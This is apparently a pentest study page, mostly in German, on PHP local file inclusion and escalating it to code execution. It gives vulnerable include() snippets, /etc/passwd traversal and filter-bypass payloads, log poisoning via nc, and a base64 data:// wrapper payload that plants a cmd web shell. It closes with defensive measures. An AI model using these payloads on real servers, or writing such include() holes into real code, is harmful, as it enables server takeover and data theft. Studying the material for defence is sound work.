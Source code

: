 # LFI - local file inclusion — read server files through bad input handling

**local file inclusion (LFI)** is a vulnerability in web applications where an attacker can read local files on the server through manipulated input. LFI commonly occurs in PHP applications when functions like `include`, `require`, `include_once`, or `require_once` are used insecurely. also possible in ASP, JSP, or node.js environments.

LFI typically relies on **path traversal (path manipulation)** to access system files like `/etc/passwd`. - Local File Inclusion

**Local File Inclusion (LFI)** ist eine Schwachstelle in Webanwendungen, bei der ein Angreifer durch manipulierte Eingaben lokale Dateien auf dem Server lesen kann. LFI tritt häufig in PHP-Anwendungen auf, wenn Funktionen wie `include`, `require`, `include_once` oder `require_once` unsicher verwendet werden. Sie ist jedoch auch in anderen Umgebungen wie ASP, JSP oder Node.js möglich.

LFI basiert in der Regel auf **Pfadmanipulation (Path Traversal)**, um systeminterne Dateien aufzurufen, z. B. `/etc/passwd`.

***

### 1. Einfache Einbindung über GET-Parameter

```php
<?php
    include($_GET['lang']);
?>
```

Ein Aufruf wie `?lang=EN.php` lädt die Datei `EN.php`. Ohne Validierung ist es möglich, beliebige lesbare Dateien zu referenzieren, z. B.:

```
http://webapp/index.php?lang=/etc/passwd
```

***

### 2. Verzeichnisspezifische Einbindung

```php
<?php
    include("languages/" . $_GET['lang']);
?>
```

Durch gezielte **Pfadmanipulation** lässt sich der Ordner verlassen:

```
http://webapp/index.php?lang=../../../../etc/passwd
```

***

### 3. Fehlermeldungen als Informationsquelle

Bei Blackbox-Tests können Fehlerausgaben wertvolle Informationen liefern, z. B.:

```
include(languages/xav.php): failed to open stream
```

Dies offenbart Pfadstrukturen und Dateinamensmuster (z. B. `.php` wird automatisch angehängt). Zum Umgehen dieses Anhangs kann ein **Null-Byte-Injection**-Trick versucht werden:

```
http://webapp/index.php?lang=../../../../etc/passwd%00
```

{% hint style="warning" %}
Hinweis: Seit PHP 5.3.4 ist `%00`-Injection nicht mehr wirksam.
{% endhint %}

***

### 4. Umgehung von Filtermechanismen

Filter, die z. B. `/etc/passwd` blockieren, können durch Tricks wie die **Verwendung von `/./` oder `/../` am Ende** umgangen werden:

* `/etc/passwd/.`
* `/etc/passwd/..`

Diese Tricks nutzen das Verhalten des Dateisystems aus, um Filter zu umgehen, ohne den tatsächlichen Pfad zu verändern.

***

### 5. Bypassing von Path-Sanitization

Bei Filtermechanismen, die z. B. `../` ersetzen, kann der folgende Bypass funktionieren:

```
....//....//....//etc/passwd
```

Dies umgeht einfache Ersetzungen, da sie meist nur `../` erkennen und nicht rekursiv prüfen.

***

Hier ist eine strukturierte, zusammengefasste und professionell formulierte Version des Themas **LFI2RCE – Remote Code Execution über LFI**, inklusive Session Files, Log Poisoning und PHP Wrapper:

***

## LFI2RCE – Remote Code Execution über Local File Inclusion

**LFI (Local File Inclusion)** kann weit über das bloße Auslesen von Dateien hinausgehen. Unter bestimmten Bedingungen lässt sich durch LFI sogar Remote Code Execution (RCE) erreichen. Dies geschieht durch das gezielte Einfügen und spätere Ausführen von PHP-Code in serverseitige Dateien, die von der Anwendung eingebunden werden. Zu den gängigen Methoden gehören Session File Injection, Log Poisoning sowie der Missbrauch von PHP-Wrappers.

***

### 1. **Session File Injection**

PHP speichert Sitzungsdaten standardmäßig in Dateien, z. B. unter `/var/lib/php/sessions/`. Enthält eine LFI-schwache Anwendung eine solche Session-Datei, und gelingt es dem Angreifer, zuvor schädlichen PHP-Code in seine Session zu injizieren, kann dieser ausgeführt werden.

**Vorgehensweise:**

*   Ein Angreifer sendet über den `page`-Parameter bösartigen PHP-Code:

    ```php
    <?php echo phpinfo(); ?>
    ```
* Dieser Code wird in der Session-Datei des Benutzers gespeichert.
*   Anschließend wird über eine LFI-Schwachstelle genau diese Datei eingebunden:

    ```
    /sessions.php?page=/var/lib/php/sessions/sess_[PHPSESSID]
    ```

> Hinweis: Die Session-ID ist im Browser-Cookie (`PHPSESSID`) zu finden.

***

### 2. **Log Poisoning**

**Log Poisoning** beschreibt das Einschleusen von PHP-Code in Server-Logdateien (z. B. Access Logs), gefolgt von deren Einbindung über LFI.

**Vorgehensweise:**

1.  **Code-Injektion:** Der Angreifer sendet z. B. per Netcat folgende Anfrage an den Server:

    ```bash
    $ nc 10.10.235.227 80
    <?php echo phpinfo(); ?>
    ```

    → Dieser Code wird im Apache-Log gespeichert (meist `/var/log/apache2/access.log`).
2.  **Einbindung via LFI:**

    ```php
    /vulnerable.php?page=/var/log/apache2/access.log
    ```

    → Der Server führt den Code beim Einbinden der Logdatei aus.

***

### 3. **Wrapper-basierte Codeausführung**

Neben Dateiauslese können PHP-Wrapper auch zur **Codeausführung** genutzt werden. Ein häufig verwendeter Wrapper ist:

**`php://filter` + `data://` für base64-dekodierte Payloads**

**Beispielcode:**

```php
<?php system($_GET['cmd']); echo 'Shell done!'; ?>
```

**Base64-kodiert:**`PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`

**Kombinierter Payload:**

```
php://filter/convert.base64-decode/resource=data://text/plain,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```

**Ablauf:**

* Der Wrapper `php://filter` dekodiert die eingebetteten Daten zur Laufzeit.
* Der dekodierte Inhalt enthält PHP-Code, der dann vom Server ausgeführt wird.
*   Der Parameter `cmd` kann anschließend genutzt werden, um Befehle auszuführen, z. B.:

    ```
    ?cmd=whoami
    ```

> Achtung: Der Parameter `cmd` darf nicht im base64-kodierten Teil enthalten sein. Wird er mit enkodiert, erzeugt das eine fehlerhafte Byte-Sequenz.

***

{% hint style="info" %}
**LFI2RCE** ist ein gefährlicher Angriffsvektor, der bei unsicheren Anwendungen mit LFI-Schwachstellen zum vollständigen Serverkompromiss führen kann. Besonders kritisch sind:

* Einbindung von modifizierbaren Dateien (Sessions, Logs)
* PHP-Wrapper mit dynamischer Verarbeitung
* Fehlende oder mangelhafte Eingabevalidierung
{% endhint %}

{% hint style="info" %}
**Abwehrmaßnahmen:**

* Keine direkte Nutzung von Benutzereingaben in `include()` / `require()`
* Deaktivieren unnötiger PHP-Wrapper (`allow_url_include`, `allow_url_fopen`)
* Sicherstellung, dass sensible Dateien nicht über Webanwendungen einbindbar sind
* Logging-Verzeichnisse unzugänglich machen
* Session-Dateien nicht im einbindbaren Pfad speichern
{% endhint %}
